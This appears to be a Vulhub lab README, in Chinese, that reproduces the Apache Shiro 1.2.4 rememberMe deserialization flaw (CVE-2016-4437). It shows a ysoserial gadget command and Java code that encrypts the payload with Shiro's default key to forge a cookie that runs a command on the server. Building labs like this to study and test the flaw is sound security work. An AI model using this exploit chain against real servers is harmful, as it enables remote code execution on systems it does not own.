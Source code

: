 # Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 漏洞环境

执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}

```

发送rememberMe Cookie，即可成功执行`touch /tmp/success`：

![](1.png)
